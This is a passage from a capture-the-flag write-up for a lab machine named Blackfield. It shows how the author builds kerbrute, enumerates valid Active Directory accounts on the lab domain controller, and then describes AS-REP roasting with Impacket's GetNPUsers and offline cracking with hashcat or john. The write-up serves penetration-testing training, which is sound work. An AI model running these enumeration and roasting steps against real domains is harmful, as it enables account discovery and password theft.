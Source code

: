 Now I focus my efforts on the **[Kerberos](https://book.hacktricks.xyz/network-services-pentesting/pentesting-kerberos-88){:target="_blank"}** protocol (port **88**), for that I am going to download the **[Kerbrute](https://github.com/ropnop/kerbrute){:target="_blank"}** tool to validate user accounts that I found with `smbclient`. Once downloaded the repository I compile it with `go` and compress it with `upx`, thanks to `kerbrute` I find that three account names are valid and also I get a **hash**, that for the moment I don't know if it can be cracked with some offline tool like `john` or `hashcat`.

> **[Kerberos](https://www.fortinet.com/resources/cyberglossary/kerberos-authentication){:target="_blank"}**: In mythology, **Kerberos** (also known as Cerberus) is a large, three-headed dog that guards the gates to the underworld to keep souls from escaping. In our world, **Kerberos** is the computer network authentication protocol initially developed in the 1980s by Massachusetts Institute of Technology (**MIT**) computer scientists. The idea behind **Kerberos** is to authenticate users while preventing passwords from being sent over the internet.

```bash
git clone https://github.com/ropnop/kerbrute
cd kerbrute
go build -ldflags '-s -w' .
du -hc kerbrute
upx kerbrute
du -hc kerbrute             # :)

kerbrute --help
# This tool is designed to assist in quickly bruteforcing valid Active Directory accounts through Kerberos Pre-Authentication. It is designed to be used on an internal Windows domain with access to one of the Domain Controllers. Warning: failed Kerberos Pre-Auth counts as a failed login and WILL lock out accounts.

kerbrute userenum --dc 10.10.10.192 -d blackfield.local Users.txt         # :)
#    --> audit2020@blackfield.local
#    --> support@blackfield.local                        Hash!
#    --> svc_backup@blackfield.local

nvim Validusers.txt
nvim Hash
```

<br />
<img src="{{ site.img_path }}/blackfield_writeup/Blackfield_07.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/blackfield_writeup/Blackfield_08.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/blackfield_writeup/Blackfield_09.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/blackfield_writeup/Blackfield_10.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

With `kerbrute` I found that one of the accounts has the **Kerberos** pre authentication feature disabled, which makes it susceptible to **[AS-REP Roasting Attack](https://www.picussecurity.com/resource/blog/as-rep-roasting-attack-explained-mitre-attack-t1558.004){:target="_blank"}**. I can use Impacket's **GetNPUsers** script to get a **TGTs** to crack it offline (I must first add the Domain Controller name to my hosts file). I get lucky and can get the **TGTs** for the account **audit2020@blackfield.htb** and now with **[`hashcat`](https://arttoolkit.github.io/wadcoms/Hashcat-Kerberos/){:target="_blank"}** or `john` I can try to get the password in clear text. It doesn't take long for the tool to find the correct credential.
